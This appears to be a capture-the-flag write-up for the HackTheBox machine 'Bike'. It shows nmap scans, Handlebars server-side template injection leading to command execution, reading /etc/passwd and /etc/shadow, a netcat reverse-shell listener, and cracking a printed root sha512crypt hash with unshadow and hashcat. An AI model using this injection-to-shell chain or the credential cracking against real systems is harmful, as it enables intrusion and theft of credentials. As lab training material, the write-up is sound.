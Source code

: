 ```yaml
---
layout: post
title: bike
categories: htb
tags:
- htb
- starting_point
- ignition
- ssti
- handlebars
author: nicoliboli
description: starting point | tier 1 | box 6
date: '2025-07-02 07:51:01 -0400'
---
```

# enumeration

```
$ nmap 10.129.165.133         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-01 07:11 EDT
Nmap scan report for 10.129.165.133
Host is up (0.098s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 12.29 seconds

$ nmap -p- --min-rate 1000 10.129.165.133
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-01 07:11 EDT
Nmap scan report for 10.129.165.133
Host is up (0.10s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 71.36 seconds

$ nmap -sC -sV -p 22,80 10.129.165.133
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-01 07:11 EDT
Nmap scan report for 10.129.165.133
Host is up (0.10s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Node.js (Express middleware)
|_http-title:  Bike 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.32 seconds
```

## port 80 - http

use Wappalyzer to look at the technologies the website is using. i've never used it before this, but the question specifically says to do so

![bike_wappalyzer](/assets/img/bike_wappalyzer.png)

didn't get anything with burpsuite, so time to start testing inputs. i tried sqli and xss, but why i got to ssti, i get an error

![bike_ssti](/assets/img/bike_ssti.png)

that's a good sign. so not i know that the template library being used is `handlebars`. [here](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html) there is a handlebars SSTI. i put the string in the `Decoder` to url encode it and sent it via `Repeater`

![bike_hacktricks_handlebars](/assets/img/bike_hacktricks_handlebars.png)

![bike_burp_decoder](/assets/img/bike_burp_decoder.png)

![bike_burp_exec](/assets/img/bike_burp_exec.png)

that would have been too easy, so of course there's an error

![bike_require](/assets/img/bike_require.png)

at this point i started googling and found [this](https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html) writeup about a 2019 Shopify RCE. i got execution when i changed `return require('child_process').exec('whoami');` to `return JSON.stringify(process.env);` so at least i knew i was on the right track

![bike_shopify](/assets/img/bike_shopify.png)

now i needed to know more about why require wasn't working, so i looked at the docs [here](https://nodejs.org/api/globals.html) and found out it was a scope issue. there are global objects available and `require` *appears* to be one but is a built-in object that is apart of javascript instead... (literally says that in the docs). the `process` object looks promising (and is actually global). try a test with a nodejs payload that uses process to read `/etc/passwd` (got it at hacktricks again and just CTRL+F'd for `process` until i found a payload that looked like it would work). encoded the payload, sent it, and got the `/etc/passwd` contents

![bike_burp_decoder1](/assets/img/bike_burp_decoder1.png)

![bike_burp_passwd](/assets/img/bike_burp_passwd.png)

now try with a reverse shell. had to try a couple and unfortunately there is a timeout (like a couple of seconds) before my shell gets dead

![bike_burp_revshell](/assets/img/bike_burp_revshell.png)

```
$ nc -lvnp 42069
listening on [any] 42069 ...
connect to [10.10.14.189] from (UNKNOWN) [10.129.165.133] 58524
sh: 0: can't access tty; job control turned off
# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:94:f0:98 brd ff:ff:ff:ff:ff:ff
    inet 10.129.165.133/16 brd 10.129.255.255 scope global dynamic ens160
       valid_lft 2637sec preferred_lft 2637sec
    inet6 dead:beef::250:56ff:fe94:f098/64 scope global dynamic mngtmpaddr 
       valid_lft 86394sec preferred_lft 14394sec
    inet6 fe80::250:56ff:fe94:f098/64 scope link 
       valid_lft forever preferred_lft forever
```

so instead see if i can crack anything offline in `/etc/shadow`

![bike_shadow](/assets/img/bike_shadow.png)

save off both `/etc/passwd` and `/etc/shadow` and use `unshadow` to combine them. since root is the only one with a hash, i just deleted everything but that line (if you don't delete the lines, `hashcat` will give you a `Token length exception` when it starts to run). then i looked for the hash type in `hashcat`'s help menu and queued up a job and let that run. during said run i realized that i can also just `cat` the flag... (in hindsight i probably should've poked around first before just assuming that the flag was at `/root/flag.txt`, but i was right the first time so imma take the win)

```
$ unshadow bike_passwd bike_shadow > bike_unshadowd.hash

$ cat bike_unshadowd.hash                                    
root:$6$0SQCmOY2y69saJ03$KNzYMiIiXMJxWzCWEl2jhkvevVCaWH7RVfhW8ep2sTbta1Z6.H/d9PhIWtXM7yZbLFCJY6dBmJ3LurfW2eh/X0:0:0:root:/root:/bin/bash

$ hashcat --help | grep '$6' 
   1800 | sha512crypt $6$, SHA512 (Unix)                             | Operating System
  22921 | RSA/DSA/EC/OpenSSH Private Keys ($6$)                      | Private Key

$ hashcat -m 1800 ./bike_unshadowd.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-Intel(R) Core(TM) i7-9700K CPU @ 3.60GHz, 2155/4374 MB (1024 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
```

![bike_flag](/assets/img/bike_flag.png)